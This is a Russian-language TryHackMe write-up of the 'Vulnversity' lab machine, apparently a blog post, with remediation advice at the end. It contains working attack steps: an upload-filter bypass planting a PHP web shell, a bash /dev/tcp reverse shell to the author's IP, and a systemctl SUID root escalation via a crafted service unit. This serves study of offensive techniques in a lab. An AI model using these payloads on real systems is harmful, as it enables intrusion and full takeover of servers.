# TryHackMe: Vulnversity

*Дата: 01.11.26*

### Сложность: Easy

**Мой IP: 192.168.130.244**

**IP Цели: 10.113.159.145**

### **Лаборатория: TryHackMe, все действия легитимны**

**Инструменты: Nmap, Gobuster, Proxychains, Burp Suite, python3, sudo, bash** 

---

Сегодня у нас очередная Easy машинка на TryHackMe - **Vulnversity**. Начнём как обычно с этапа разведки, с `nmap`:

```bash
sudo nmap -sV -sC -O -p- 10.113.159.145
```



Сканирование всех портов показало, что открыто всего 6 портов, `vsftpd` на 21-ом, `ssh` на 22-ом, `Samba smbd 4` на 139 и 445-ых, прокси на 3128-ом и сайт на 3333-ем. Начнём с `vsftpd`, здесь нету открытых уязвимостей позволяющих получить `reverse-shell`, однако буквально 3 дня назад *(30 октября 2026 года)* на версии вплоть до 3.0.6 *(нашу 3.0.5 включая)* нашли **CVE-2026-119567** - *(Суть проблемы в функции проверки запрещенных команд `process_post_login()`, токены сравниваются буквально. Если администратор настроил директиву cmds_denied для блокировки определенных действий, авторизованный пользователь может обойти этот запрет*

И

**CVE-2026-119568** - *(Суть проблемы в том, что уязвимость позволяет неавторизованным злоумышленникам перехватывать шифрованные FTPS-соединения для передачи данных, повторно используя свой собственный сессионный билет `TLS (TLS session ticket)`)*

А так-же

**CVE-2025-14242**  - *(Суть проблемы в том, что ошибка возникает при парсинге параметров встроенной команды ls. Удаленный пользователь может спровоцировать сбой в работе сервиса `Denial of Service, (DoS)`, передав некорректно сформированные аргументы)*

Это целых три уязвимости за один порт, но пока что они нам не помогут

Теперь идём дальше, 22-ой порт нам не поможет, а вот `Samba smbd 4` вполне может. Нужно проверить, доступен ли анонимный вход:

```bash
smbclient -L //10.113.159.145 -N
```



И да, тут есть `print$` и `IPC$`, давайте теперь попробуем сделать анонимный вход:

```bash
smbclient //10.113.159.145/IPC$ -N
```

```bash
smbclient //10.113.159.145/print$ -N
```

Однако подключиться ни к одному не получилось, поэтому давайте пойдём дальше. 

Так же на 3128-ом порту был прокси, и я решил использовать его как промежуточный узел для более глубокой разведки. Через `proxychains` с типом `http` я направил `TCP` сканирование `nmap` `(-sT)` на `127.0.0.1` с точки зрения самого прокси. Это позволяет обнаружить сервисы, которые слушают только `localhost` и недоступны напрямую извне. Вдобавок - все запросы исходят от `IP` прокси-сервера, что скрывает мой адрес, поэтому давайте сначала откроем конфиг `proxychains`:

```bash
sudo nano /etc/proxychains4.conf
```

И теперь берём `socks4 127.0.0.1 9050` в `#` *(пока что, позже можно будет вернуть всё обратно)*, и теперь вводим туда `http 10.113.159.145 3128`, а теперь используем `nmap` через `proxychains` с флагами `-sT (TCP connect scan)` и `Pn`, потому что `proxychains` работает исключительно с `TCP` соединениями, и теперь собираем это всё в одну команду:

### **Внимание: У меня заняло это пару часов, и без результата! Вам лучше пропустить этот этап**

```bash
proxychains nmap -sT -Pn -n -p- 127.0.0.1
```

Но сканирование через `proxychains` мне не дало результата, поэтому я вернул в `/etc/proxychains4.conf` всё обратно, и решил экспериментировать дальше. 

Теперь остался последний и главный порт - 3333-ий, давайте сделаем разведку с помощью `gobuster` и помимо папок будем искать файлы `.php`, `.txt` и `.html` формата, потому что они самые популярные на `Apache`:

```bash
gobuster dir -u http://10.113.159.145:3333 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt # Так же обратите внимание, что после IP мы добавили :3333, потому что сайт находится на нестандартном порте
```



И я не нашёл ничего толком, на главной странице сайта были какие то курсы по игре на пианино, единственное что меня зацепило это видео, на котором была реклама, но суть не в этом. Там было имя `stanley`, возможно в будущем нам пригодится это, поэтому оставим как факт. Кроме остальных бесполезных папок и нерабочего функционала сайта, я нашёл папку `/internal`, в которой можно было загружать файлы. Я сразу запустил `Burp Suite`, настроил `firefox` и был готов попробовать загрузить туда свой веб-шелл, сначала запустим `burpsuite`:

```bash
burpsuite
```

Теперь я решил создать на kali файл **shell.php**:

```bash
nano ~/Desktop/shell.php
```

А затем написал туда

```bash
<?php system($_GET["cmd"]); ?>
```

Это простейший веб-шелл который работает на правильном построении `URL` запроса, теперь перейдем из `Dashboard` в **Proxy -> Intercept** *(В `Burp suite`, разумеется)*



Теперь выбираем в загрузках наш файл `shell.php`



Загружаем его, перехватываем запрос в `Burp suite`, и сделаем так, чтобы сервер читал этот файл как `.png` *(т.е как картинку, когда на самом деле это `.php` код)*


Меняем `filename='shell.php'` на `filename='shell.phtml'`, а `Content-Type:` делаем `image/png`. Для чего это нужно? Сам по себе сайт, скорее всего блокирует посторонний `.php` код, однако не блокирует другие расширения `.php` *(т.е `.phtml`, `.php3`)* поэтому мы меняем расширение, а в `Content-Type` мы меняем на `image/png`, чтобы сайт воспринимал наш файл как фото, остаётся теперь только нажать `Forward`



И да, наш файл загрузился. Теперь попробуем найти его в `http://10.113.159.145:3333/internal/uploads`



И наш файл есть тут, теперь давайте испытаем его, введя в `URL` запрос:

```bash
http://10.113.159.145:3333/internal/uploads/shell.phtml?cmd=id
```



И да, это сработало. Мы - `www-data`, теперь давайте получим `reverse-shell`

Сначала откроем на терминале kali 4444-ый порт:

```bash
nc -lvp 4444
```

В `URL` мы должны передать команду `bash -c 'bash -i >& /dev/tcp/192.168.130.244/4444 0>&1'`, однако `URL` запрос может криво воспринимать пробелы и спец. символы, поэтому мы напишем команду на понятном языке, чтобы `URL` запрос понял, что от него требуют:

```bash
http://10.113.159.145:3333/internal/uploads/shell.phtml?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.130.244%2F4444%200%3E%261%27
```

Где: 
`%20` - это пробел ` `

`%3E` - это `>`

`%26` - это `&`

`%2F` - это `/`

`%27` - это одинарная кавычка `'`



И да, мы получили `reverse-shell`. Первым делом давайте с помощью `python3` или `python` получим `TTY` для стабилизации терминала:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Теперь, после получения `reverse-shell` и `TTY` *(Нормального терминала простыми словами)* пора сделать разведку:

```bash
whoami
pwd
sudo -l
```

Мы - `www-data`, находимся в `/var/www/html/internal/uploads`, а права `sudo` проверить не удалось, так как требуется пароль пользователя www-data, которого у нас нет 

Давайте сначала поищем первый флаг, перейдя для начала в `/home`:

```bash
cd /home
ls -la
cat /home/bill/user.txt
```

И тут лишь один пользователь - `bill`, флаг которого мы только что прочитали. Теперь давайте искать нестандартные `SUID` биты:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```



На первый взгляд ничего необычного, однако меня сейчас заинтересовал `/bin/systemctl`

Сам `SUID` бит на нём не является прямым вектором атаки, всё дело в **A02: Security Misconfiguration (2025 год)** - неправильно настроенная конфигурация. Если в системе неправильно настроенные правила `Sudoers` *(разрешение обычному пользователю запускать `/bin/systemctl`)* или возможно прямое выполнение без контроля `Polkit`, то это можно использовать как лифт до `root`

Но дело в том, что этот файл имеет `SUID` бит, а владелец этого файла - `root`. Поэтому мы его можем использовать в наших интересах

Сначала создаём временный файл с расширением `.service`

```bash
TF=$(mktemp).service
```

Эта команда создаёт пустой файл, который нам сейчас пригодится. Теперь пишем вторую команду:

```
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash"
[Install]
WantedBy=multi-user.target' > $TF
```

Суть в том, что мы записываем в файл инструкцию: при запуске сервиса скопировать `/bin/bash` в `/tmp/rootbash` и выдать ему права SUID

Теперь создаём символическую ссылку *(ярлык)* на наш файл, чтобы `systemd` смог его увидеть и запустить:

```bash
systemctl link $TF
```

И теперь запускаем его:

```bash
systemctl enable --now $TF # Флаг --now означает включить, и сразу запустить
```

И теперь, мы скопировали `/bin/bash` прямо в `/tmp/rootbash`, теперь давайте запустим наш `shell`:

```bash
/tmp/rootbash -p # флаг -p говорит оболочке не сбрасывать привилегии
```

И вот, мы `root`, пишем `whoami` чтобы убедится:

```bash
whoami
```



Теперь читаем последний флаг

```bash
cd /root
cat /root/root.txt
```

И проходим машинку

---

### РЕКОМАНДАЦИИ ПО УСТРАНЕНИЮ УЯЗВИМОСТЕЙ:
  1. **Обновить vsftpd до актуальной версии (в данный момент до 3.0.7)**
  2. **Закрыть в Samba smbd 4 анонимный вход ПОЛНОСТЬЮ, чтобы даже print$ и IPC$ не показывались**
  3. **Запретить загружать файлы в /internal обычным пользователям, а так же сделать более жёсткую проверку расширения файла**
  4. **Запретить исполнение .phtml, php3 и тому подобному**
  5. **Забрать SUID бит у /bin/systemctl**
